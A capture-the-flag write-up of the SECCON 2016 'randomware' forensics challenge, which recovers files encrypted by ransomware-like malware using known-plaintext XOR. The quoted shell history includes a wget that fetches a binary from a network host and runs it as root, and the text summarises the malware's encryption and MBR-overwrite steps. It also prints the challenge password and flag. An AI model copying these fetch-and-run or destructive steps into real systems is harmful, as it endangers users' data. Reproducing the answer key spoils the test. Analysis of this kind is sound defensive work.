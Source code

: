 # [SECCON Quals CTF 2016](http://2016.seccon.jp/): [randomware](https://score-quals.seccon.jp/question/19a84b2eeb383263660420d7aa70372120b89771)

**Category:** Forensics
**Points:** 300
**Solves:** 38
**Description:**

> randomware
>
> My PC suddenly got broken. Could you help me to recover it please?
> NOTE: The disk can be virus-infected. DO NOT RUN any programs extracted from the disk outside of sandbox.
>
> [disk.qcow2.zip](http://files.quals.seccon.jp/disk.qcow2.zip)
> Challenge files is huge, please download it first. Password will release after 60min.
>
> password: h9nn4c2955kik9qti9xphuxti

## writeup

A short, not so hard forensics challenge, but perhaps more reversing
including basic crypto. Unzipping the challenge zip (with the provided
password) it is a plain
[qcow2](https://en.wikipedia.org/wiki/Qcow) image. It is a dense
[copy-on-write](https://en.wikipedia.org/wiki/Copy-on-write)
format. To deal with it easier, let us convert it to raw
with [`qemu-img`](https://linux.die.net/man/1/qemu-img)
(included with [qemu](http://wiki.qemu.org/Main_Page):

```
$ qemu-img convert disk.qcow2 disk.raw
```

The output file looks like a raw disk image, but
partition table seems to be corrupted:

```
$ file disk.raw 
disk.raw: DOS/MBR boot sector
$ fdisk -l disk.raw
Disk disk.raw: 1 GiB, 1073741824 bytes, 2097152 sectors
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes
Disklabel type: dos
Disk identifier: 0x00000000
```

Dumping the file shows lots of data, so let us try to
recover that corrupted partition table (using the
standard recovery tool [TestDisk](http://www.cgsecurity.org/wiki/TestDisk)).
Doing an "Analyse / Quick Search" with "Intel" partition
type on the raw disk image immediately reveals the
healthy FAT32 partition. It is not important, but
it can be written to the file.

![TestDisk](./screenshot_testdisk.png)

Now the disk image has been fixed, FAT32 partition
is available:
```
$ fdisk -l disk.raw 
Disk disk.raw: 1 GiB, 1073741824 bytes, 2097152 sectors
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes
Disklabel type: dos
Disk identifier: 0x00000000

Device     Boot Start     End Sectors    Size Id Type
disk.raw1  *       63 2088449 2088387 1019.7M  b W95 FAT32
```

Mounting it is straightforward (it starts on sector 63,
sector size is 512 bytes, so offset is `63*512=32256` (in bytes)):
```
# mount -t vfat -o offset=32256,ro disk.raw  mnt/
```

Observing the structure it can be identified as a
[Tiny Core Linux](http://tinycorelinux.net/welcome.html) system.
The custom part of the system is probably in `/mydata.tgz`,
so it should be the most interesting stuff for further investigation.

It contains a home directory for user `tc` with some basic (almost
useless) config folders, a `.mozilla` folder with a profile, and
some very interesting files in the home:
```
home/tc/.ash_history
home/tc/getflag
home/tc/h1dd3n_s3cr3t_f14g.jpg
```

Here we should not forget the challenge NOTE about virus-infection:
the `getflag` is an ELF32 binary which must not be executed (outside
a sandbox!).

Dumping the history file:
```
tce-load -wil firefox-ESR
exit
tce-load -i firefox-ESR
firefox 172.17.0.1
wget http://172.17.0.1/getflag.bin -O getflag --user-agent="Chrome"
./getflag 
chmod +x getflag 
./getflag 
sudo ./getflag 
ls
firefox h1dd3n_s3cr3t_f14g.jpg 
```

So the user invoked [`tce-load`](http://wiki.tinycorelinux.net/wiki:tce-load)
and installed Firefox-ESR, downloaded `getflag` binary (from LAN)
executed getflag (as root, probably not the best idea ;) ), and tried to open
`h1dd3n_s3cr3t_f14g.jpg` in Firefox.

Unfortunately the jpeg file is a garbage.

### reversing the malware

The binary `getflag` is an ELF32, dynamically linked and fortunately not
stripped binary:
```
$ file home/tc/getflag 
home/tc/getflag: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=60e977599ec0a53c4406d8a9a941ce736aff9064, not stripped
```

It is a short binary full of symbols, so basic usage of
[r2](http://radare.org/r/) is more than enough to understand the malware.

![pdf @sym.main]{./screenshot_r2.png}

So the malware (ranDomware) does the following:

1. Checks for user id (==`root`)
2. `wget http://172.17.0.1/h1dd3n_s3cr3t_f14g.jpg`
3. Creates `encrypt_key` with 0x400 bytes pulled from `/dev/urandom`
4. Searches `/home/tc` recursively for files with suffix
`.txt`, `.bin`, `.jpg`, `.jpeg`, `.png`, `.gif`, `.bmp`, `.tif`, `.tiff`,
`.doc`, `.docx`, `.docm`, `.xls`, `.xlsx`, `.xlsm`, `.ppt`, `.pptx`, `.pptm`,
`.odt`, `.odf`, `.xml`.
5. Encrypts and overwrites the matching files by XORing somehow with
the random `encrypt_key`.
6. And as a bonus, overwrites the MBR of the disk with a custom code. (WARNING: DO NOT TRY TO EXECUTE IT!!!)

### ranDomware vulnerability

In order to decrypt the encrypted `h1dd3n_s3cr3t_f14g.jpg`, the
random generated `encrypt_key` must be found somehow. It is not
impossible, because the malware XOR encrypts every file it founds
with exactly the same `encrypt_key`. Thus, if we find an encrypted
file (`C`) with known plaintext `P` (and with a size bigger than
the key size (0x400 = 1024 byes)), the key can be calculated
trivially:
```
encrypt_key = C[:0x400] ^ P[:0x400]
```

### searching for known plaintext

There are possible encrypted `*.xml` files with known plaintext in
`home/tc/.local/share/mime/packages/` but the size is too small.
Fortunately there is an encrypted `blocklist.xml` file in the
Firefox profile folder:
```
home/tc/.mozilla/firefox/wir5mrmb.default/blocklist.xml
```

Now the original plaintext of `blocklist.xml` must be found.
Probably it is part of the appropriate Firefox tarball.
Reading `prefs.js` from the profile dir, the variable
`gecko_mstone` identifies the version: `45.0`. Moreover,
it is surely an
[ESR](https://www.mozilla.org/en-US/firefox/organizations/faq/)
according to the previously parsed `.ash_history` file above.

Browsing the
[Firefox FTP release folder](https://ftp.mozilla.org/pub/firefox/releases/),
the [45.0esr](https://ftp.mozilla.org/pub/firefox/releases/45.0esr/)
version can be [downloaded](https://ftp.mozilla.org/pub/firefox/releases/45.0esr/linux-i686/en-US/firefox-45.0esr.tar.bz2).

Extracting the tarball `firefox/browser/blocklist.xml` matches
the encrypted `blocklist.xml` size (207840 bytes), so it is almost sure,
that the corresponding plaintext file has been found.


### Decrypting the flag

The following simple [Python3 script](./decrypt.py)
calculates the XOR key from the plaintext and
encrypted version of `blocklist.xml` and decrypts
`h1dd3n_s3cr3t_f14g.jpg`:

```python
#!/usr/bin/python3
#

key = [b'\x00']*0x400
enc = open('./home/tc/h1dd3n_s3cr3t_f14g.jpg', 'rb').read()
dec = b''

f2 = 'blocklist.xml'
c2 = open('./home/tc/.mozilla/firefox/wir5mrmb.default/' + f2, 'rb').read()
p2 = open('./firefox/browser/' + f2, 'rb').read()

for i in range(len(key)):
    key[i] = bytes([p2[i] ^ c2[i]])

for i in range(len(enc)):
    dec += bytes([enc[i] ^ ord(key[i%len(key)])])

open('./f14g_decrypted.jpg', 'wb').write(dec)
```

Displaying the output jpeg shows the flag:
```
SECCON{This is Virtual FAT too}
```

![SECCON{This is Virtual FAT too}](./f14g_decrypted.jpg)

The challenge was completed in the awesome team
[OpenToAll](https://ctftime.org/team/9135) which finished as
[21st](http://ranking.quals.seccon.jp/).
